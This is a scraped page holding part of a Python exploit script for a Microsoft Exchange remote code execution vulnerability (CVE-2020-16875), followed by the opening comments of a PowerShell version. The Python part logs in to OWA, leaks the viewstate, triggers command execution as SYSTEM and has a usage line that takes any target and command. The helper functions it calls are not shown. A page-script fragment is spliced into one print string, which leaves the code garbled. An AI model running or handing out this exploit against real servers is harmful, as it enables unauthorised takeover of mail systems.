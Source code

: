 
    def log_in(t, usr, pwd):
        s = requests.Session()
        d = {
            "destination": "https://%s/owa" % t,
            "flags": "",
            "username": usr,
            "password": pwd
        }
        s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
        assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
        return s


    def main(t, usr, pwd, cmd):
        s = log_in(t, usr, pwd)
        print("(+) logged in as %s" % usr)
        vs = leak_viewstate(t, s)
        print("(+) found the __viewstate: %s" % vs)
        trigger_rce(t, s, vs, cmd)
        print("(+) executed %s as SYSTEM!" % cmd)


    if __name__ == '__main__':
        if len(sys.argv) != 4:
            print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
            print("(+) eg: %s 192.168.75.142 <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="cca4adbebeb5a18ca9b4afa4ada2aba9a8a9a1a3e2afa3a1">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>:user123### mspaint" % sys.argv[0])
            sys.exit(-1)
        trgt = sys.argv[1]
        assert ":" in sys.argv[2], "(-) you need a user and password!"
        usr = sys.argv[2].split(":")[0]
        pwd = sys.argv[2].split(":")[1]
        cmd = sys.argv[3]
        main(trgt, usr, pwd, cmd)
    powershell版本：
    # Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
    # Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
    #
    # Notes:
    #
    # The (ab)user needs the "Data Loss Prevention" role assigned
    # [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
    #
    # Name      AssignedRoles          RoleAssignments                  ManagedBy